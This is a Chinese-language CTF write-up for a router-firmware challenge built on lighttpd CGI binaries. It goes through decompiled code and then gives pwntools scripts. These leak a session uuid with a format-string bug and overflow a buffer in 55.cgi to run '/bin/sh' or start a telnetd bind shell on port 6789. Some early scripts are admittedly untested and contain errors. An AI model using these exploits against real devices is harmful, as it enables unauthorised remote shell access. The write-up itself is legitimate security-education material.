


## 西湖论剑CTF IOT

## 0x20 many cgi of lighttpd

>  题目描述： 某些路由器漏洞改编，附件为整个文件系统固件，反弹shell需反弹到6789端口

三个cgi文件，一个busybox具有telnet功能，可能是为了方便调试，或者是方便shell





在S98lighttpd 中有提示 需要了leak session.

> 这里猜测是通过配置文件来做leak


Libc 有点新，需要使用`21.04` 以上的版本才好搭建调试环境

### 0x10 对cgi-bin进行分析

`55.cgi` 发现第一步进行了auth的检查

```c
int __fastcall main(int a1, char **a2, char **a3)
{
  char *v3; // r0
  void *ptr; // [sp+4h] [bp-18h]
  int n; // [sp+8h] [bp-14h]
  const char *v8; // [sp+Ch] [bp-10h]
  char *v9; // [sp+10h] [bp-Ch]
  const char *s1; // [sp+14h] [bp-8h]

  if ( !sub_109F0(a1, a2, a3) ) // 检查auth
  {
    puts("No Authentication");
    exit(1);
  }
  puts("Content-Type: text/plain\n");
  s1 = getenv("REQUEST_METHOD");
  if ( !strcmp(s1, "GET") )
  {
    v9 = getenv("QUERY_STRING");
    sub_10B48(v9);
    return 0;
  }
  if ( strcmp(s1, "POST") )
  {
    sub_10B48(0);
    return 0;
  }
  v8 = getenv("CONTENT_TYPE");
  if ( strcmp(v8, "application/x-www-form-urlencoded") )
  {
    printf("CONTENT_TYPE not supported now !");
    return 0;
  }
  v3 = getenv("CONTENT_LENGTH");
  n = atoi(v3);
  if ( n <= 3316 && n >= 0 )
  {
    ptr = calloc(n + 1, 1u);
    fread(ptr, 1u, n, (FILE *)stdin);
    sub_10B48((char *)ptr);
    free(ptr);
    return 0;
  }
  printf("CONTENT_LENGTH not supported now !");
  return -1;
}
```

`63.cgi`

```c
int __fastcall main(int a1, char **a2, char **a3)
{
  char *v3; // r0
  void *ptr; // [sp+4h] [bp-18h]
  int n; // [sp+8h] [bp-14h]
  const char *v7; // [sp+Ch] [bp-10h]
  char *v8; // [sp+10h] [bp-Ch]
  const char *s1; // [sp+14h] [bp-8h]

  if ( !sub_108C8() ) // check auth
  {
    puts("No Authentication");
    exit(1);
  }
  puts("Content-Type: text/plain\n");
  s1 = getenv("REQUEST_METHOD");
  if ( !strcmp(s1, "GET") )
  {
    v8 = getenv("QUERY_STRING");
    sub_109E0(v8);
  }
  else if ( !strcmp(s1, "POST") )
  {
    v7 = getenv("CONTENT_TYPE");
    if ( !strcmp(v7, "application/x-www-form-urlencoded") )
    {
      v3 = getenv("CONTENT_LENGTH");
      n = atoi(v3);
      ptr = calloc(n + 1, 1u);
      fread(ptr, 1u, n, (FILE *)stdin);
      sub_109E0(ptr);
      free(ptr);
    }
    else
    {
      printf("CONTENT_TYPE not supported now !");
    }
  }
  else
  {
    sub_109E0(0);
  }
  return 0;
}
```

`index.cgi`

```c
int __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [sp+Ch] [bp-8h]

  puts("Content-type: text/plain\r\n\r");
  v4 = sub_115AC(); // 获取环境变量
  sub_1253C((int)v4, (FILE *)stdout); 
  sub_120FC((int)v4);
  return 0;
}
```

```c
主要环境变量为：
.rodata:00012824                                         ; "SERVER_SOFTWARE"
.rodata:00012828                 DCD aServerName         ; "SERVER_NAME"
.rodata:0001282C                 DCD aGatewayInterfa     ; "GATEWAY_INTERFACE"
.rodata:00012830                 DCD aServerProtocol     ; "SERVER_PROTOCOL"
.rodata:00012834                 DCD aServerPort         ; "SERVER_PORT"
.rodata:00012838                 DCD aRequestMethod      ; "REQUEST_METHOD"
.rodata:0001283C                 DCD aPathInfo           ; "PATH_INFO"
.rodata:00012840                 DCD aPathTranslated     ; "PATH_TRANSLATED"
.rodata:00012844                 DCD aScriptName         ; "SCRIPT_NAME"
.rodata:00012848                 DCD aQueryString        ; "QUERY_STRING"
.rodata:0001284C                 DCD aRemoteHost         ; "REMOTE_HOST"
.rodata:00012850                 DCD aRemoteAddr         ; "REMOTE_ADDR"
.rodata:00012854                 DCD aAuthType           ; "AUTH_TYPE"
.rodata:00012858                 DCD aRemoteUser         ; "REMOTE_USER"
.rodata:0001285C                 DCD aRemoteIdent        ; "REMOTE_IDENT"
.rodata:00012860                 DCD aContentType        ; "CONTENT_TYPE"
.rodata:00012864                 DCD aContentLength      ; "CONTENT_LENGTH"
.rodata:00012868                 DCD aHttpAccept         ; "HTTP_ACCEPT"
.rodata:0001286C                 DCD aHttpUserAgent      ; "HTTP_USER_AGENT"
.rodata:00012870                 DCD aHttpCookies        ; "HTTP_COOKIES"
```

暂时未发现可以泄漏session的地方，因此我们查看lighttpd的配置文件里有没有什么收获

### 0x20 conf.d lighted config


可以看到`sesseion`  是在`/var/tmp/session` 下，而`web` 是在`/var/www` 目录下

这时假设我们可以穿越路径去读

那么我们请求

```
/../tmp/session -> /var/www/../tmp/session -> /var/tmp/session
```

就可以泄漏`session` 了，我们启动服务去调试一下，实际环境发现并不能泄漏成功

### 0x30 思路

- 通过目录穿越泄漏session
- 通过溢出去执行`telnetd -l /bin/sh -p 6789`

而这里我注意到`system函数` 存在在文件`55.cgi` 中 因此我们来重点分析这个文件

这里我们先猜测这三个文件分别对应处理的功能 主要依靠传入`content_length` 来判断长度

```
index.cgi 主要处理环境变量
55.cgi 漏洞点
63.cgi Welcome page
```

这里我们先看`63.cgi` 的主要函数

```c
content_length 不受限
char *__fastcall sub_109E0(char *result)
{
  if ( result )
  {
    result = strstr(result, "name=");
    if ( result )
    {
      if ( result[5] )
        return (char *)printf("Hello %s !\n", result + 5);
    }
  }
  return result;
}
```

没什么异常，打印了一下Welcome

刚才看了一下提示，提示说是用格式化字符串泄漏uuid，因此分析错了

而程序里另一个函数引起了我的注意：开头的checkauth函数

```c
int sub_108C8()
{
  char s[20]; // [sp+0h] [bp-54h] BYREF
  char s2[20]; // [sp+14h] [bp-40h] BYREF
  char haystack[24]; // [sp+28h] [bp-2Ch] BYREF
  char *format; // [sp+40h] [bp-14h]
  char *v5; // [sp+44h] [bp-10h]
  char *v6; // [sp+48h] [bp-Ch]
  int v7; // [sp+4Ch] [bp-8h]

  v7 = 0;
  v6 = getenv("HTTP_COOKIES");
  memset(s, 0, 0x11u);
  sub_107E8(s);
  if ( v6 )
  {
    memset(haystack, 0, 0x17u);
    snprintf(haystack, 0x16u, "%s", v6);
    v5 = strstr(haystack, "uuid=");
    if ( v5 )
    {
      format = v5 + 5;
      memset(s2, 0, 0x11u);
      snprintf(s2, 0x11u, v5 + 5); // 格式话字符串，可以用来把s改掉或者泄漏出来
      puts(s2);
      if ( !strncmp(s, s2, 0x10u) )
        return 1;
    }
  }
  return v7;
}
```

这里可以看到加入我们输入`Cookie:uuid=%s%s%s` 执行到第二个snprintf的时候会出现`snprintf(s2,0x11u,"%s%s")`

然后`puts(s2)` 泄漏出uuid

接下来我们看一下`55.cgi`

```c
 0 < content_length < 0xcf4
char *__fastcall sub_10B48(char *result)
{
  unsigned __int8 *content; // [sp+4h] [bp-D20h]
  char v2[3316]; // [sp+Ch] [bp-D18h] BYREF
  char *v3; // [sp+D00h] [bp-24h]
  char *v4; // [sp+D04h] [bp-20h]
  int v5; // [sp+D08h] [bp-1Ch]
  int v6; // [sp+D0Ch] [bp-18h]
  size_t n; // [sp+D10h] [bp-14h]
  int v8; // [sp+D14h] [bp-10h]
  int v9; // [sp+D18h] [bp-Ch]
  char *s2; // [sp+D1Ch] [bp-8h]

  content = (unsigned __int8 *)result;
  s2 = "*#$^";
  if ( result )
  {
    if ( !strncmp(result, s2, 4u) )
    {
      v9 = content[4];
      v8 = content[5] + 2 * v9;
      n = content[6] + 4 * v8;
      v6 = content[7];
      v5 = content[8] + 2 * v6;
      memset(v2, 0, sizeof(v2));
      memcpy(v2, content, n);
      result = strstr(v2, "*#$^");
      v4 = result;
      if ( result )
      {
        v3 = &v4[v5 - 77];
        if ( *v3 )
          return (char *)sub_10AFC(v3, v5);     // 猜测漏洞点在这里
        // strncpy(dest,v3,v5) dest [752] = 0x2f8
        //  0 < content_length < 0xcf4
      }
    }
    else
    {
      result = strstr(v2, "ping");
      if ( result )
        return (char *)sub_109B0("20.21.2.26"); // system("/bin/ping -c 2 %s","20.21.2.26")
    }
  }
  return result;
}
```

可以明显看出这里有点问题,因此我们的思路就明显很多了

- 构造出包
- 调用`system("telnetd -l /bin/sh -p 6789")`


### 0x40 构造溢出包

这里我们只需要构造`content` 发包为`post`

这里我们假设可以调试的话：我们应该先测试：`63.cgi` 根据他name的传递方式来确定我们这个包的传递方法

```
假设输入
*#$^AAAAAAAAAA
-> v9 = 0x41
-> v8 = 0x41 + 2 * 0x41
n = 0x41+4* v8 // 确定整个包的长度，因此要尽量确保他比较大
v6 = 0x41
v5 = content[8] + 2 * v6 // payload的位置,要尽量精确
v3 = &[v5-77]
```

根据这个思路我们来构造payload

这里有几个点需要注意：

- `Strncpy(dest, source, n)` 由于我们要溢出dest，因此我们要保证n要足够大（最少要大于0x300左右 > 0x2f0）
- 第二我们就要控制source 位置在去除前4个字节后的第（payload_length - 77）假设payload_lenth = 0x2fd的话就是第688个字节以后的位置开始进行复制因此我们要填补的offset就是`0x2fd - 77 - 5` 然后在加上dest的大小`0x2f0` 后面跟payload就可以了

```
length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
payload ="*#$^(length_part1)(length_part2)(length_part3)(content_length_part1)(content_length_part2)('A'*(0x2fd - 77 - 5))+('B'*0x2f4 + payload)"
n = lenth_part3 + 4 * (length_part2 + 2 * length_part1) #3315
payload_length = content_length_part2 + 2 * content_length_part1 # 0x2fd
```

包构造完了之后我们就要考虑利用的问题了，由于我们大概率只能覆盖一个地址，因此我们就要想办法把`commend` 的位置控制好，我们发现

```
.text:000109D4                 SUB     R3, R11, #-s
.text:000109D8                 MOV     R0, R3          ; command
.text:000109DC                 BL      system
```

就可以等调试看看能不能利用成功了


没办法调试，但我脑子过了一遍

```
.text:00010B24                 LDR     R2, [R11,#n]    ; n
.text:00010B28                 SUB     R3, R11, #-dest
.text:00010B2C                 LDR     R1, [R11,#src]  ; src
.text:00010B30                 MOV     R0, R3          ; dest
.text:00010B34                 BL      strncpy
 MOV     R0, R3          ; dest
执行过后 R0中应该还是是第二段payload
因此我们返回到0x000109DC 直接Call system估计就行
```

POC:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

request_url = "http://127.0.0.1:80/55.cgi"

headers_for_get_uuid = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
	"Cookies":"%s%s%s" 
}

res = rq.post(request_url,headers = headers_for_get_uuid)

log.info("res: "+res)
# get_uuid

headers = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 替换掉这里的uuid
	"Cookies":"uuid=aaaabbbbccccdddd"
}

commend = "& telnetd -l /bin/sh -p 6789 ;"

system = 0x000109DC

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust('B',0x2f4)
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))

rq.post(request_url,headers = headers ,data=payload)
```


### 0x40 调试

这里我们应该使用qemu-system去调试或者修改东西来调试

可以看到是小端序，泄漏出来的地址从后往前数

```
假设我们栈情况：
  char s[20]; // [sp+0h] [bp-54h] BYREF //我们要泄漏的东西 长度为0x10
  char s2[20]; // [sp+14h] [bp-40h] BYREF
  char haystack[24]; // [sp+28h] [bp-2Ch] BYREF // uuid 12 =aaa 13 b%7$p 14
  char *format; // [sp+40h] [bp-14h] // format位置 现在测试出为第7个即：%7$p
  char *v5; // [sp+44h] [bp-10h] 
  char *v6; // [sp+48h] [bp-Ch]
  int v7; // [sp+4Ch] [bp-8h]
  
  
  
  我们先泄漏一下haystack来进行测试我们的计算：
  haystack = (0x2c - 0x14) / 4 = 6
  因此format 应该等于 7+6 = 13
```


突然发现可以单独启动cgi来调试

```sh
export HTTP_COOKIES=uuid=%2\$p // 注意转义$
export REQUEST_METHOD=POST
export CONTENT_TYPE=application/x-www-form-urlencoded
export CONTENT_LENGTH=10
export QUERY_STRING=name=F0und
```

```
qemu-arm -L /usr/arm-linux-gnueabi -g 1234 63.cgi 
```


根据刚才我们的推测可以判断session的偏移是`%2$p-%5$p` 且session不变，因此我们只要请求四次就可以泄漏session了



调试后可以看到没有问题

那么我们的第一段POC:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

def leak_session(format):
	request_url = "http://127.0.0.1:80/55.cgi"

	headers_for_get_uuid = {
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
		"Content-Type":"application/x-www-form-urlencoded",
  	# 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
		"Cookies": "uuid="+format 
	}

	res = rq.post(request_url,headers = headers_for_get_uuid)
	log.info("res: "+res.text)
  
for i in range(2,6):
  leak_session("%"+str(i)+"$p")
```

接下来就可以来调试栈溢出了

这部分由于我们的payload是要入才行，因此我们需要像这么输入：

```
 echo "name=F0und" | qemu-arm -L /usr/arm-linux-gnueabi 63.cgi
```

我们简单写个脚本来生成调试用的payload

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
from pwn import *

commend = "& telnetd -l /bin/sh -p 6789 ;"

system = 0x000109DC

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f4,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

with open("shellcode","w") as f:
	f.write(payload)
f.close()

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))
log.info("payload_length: "+str(len(payload))) #content_length 1452
# break point 0x00010C84 
# 0x00010B34 
```


可以发现应该是溢出成功了，我们来调试一下看看


可以看到写入成功

调试一下偏移发现`system = 0x00010BB0` 也就是返回到第二个函数这里可以拿到shell

```
.text:00010B90                 SUB     R3, R3, #4
.text:00010B94                 LDR     R1, =aPing      ; "ping"
.text:00010B98                 MOV     R0, R3          ; haystack
.text:00010B9C                 BL      strstr
.text:00010BA0                 MOV     R3, R0
.text:00010BA4                 CMP     R3, #0
.text:00010BA8                 BEQ     loc_10CCC
.text:00010BAC                 LDR     R0, =a2021226   ; "20.21.2.26"
.text:00010BB0                 BL      sub_109B0
.text:00010BB4                 B       loc_10CCC
```


POC2:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
from pwn import *
#remote
#commend = "; telnetd -l /bin/sh -p 6789 ;"
commend = ";/bin/sh;"

system = 0x00010BB0

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5 - 4
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f8,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

with open("shellcode","w") as f:
	f.write(payload)
f.close()

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))
log.info("payload_length: "+str(len(payload)))
```


### 0x50 Final EXP

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

def leak_session(format):
	request_url = "http://127.0.0.1:80/55.cgi"

	headers_for_get_uuid = {
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
		"Content-Type":"application/x-www-form-urlencoded",
  	# 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
		"Cookies": "uuid="+format 
	}

	res = rq.post(request_url,headers = headers_for_get_uuid)
	log.info("res: "+res.text)

  
#  leak session
for i in range(2,6):
  leak_session("%"+str(i)+"$p")

## get shell

headers = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 替换掉这里的uuid
	"Cookies":"uuid=aaaabbbbccccdddd"
}

commend = ";/bin/sh;"

system = 0x00010BB0

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5 - 4
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f8,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))
log.info("payload_length: "+str(len(payload)))
rq.post(request_url,headers = headers ,data=payload)
```

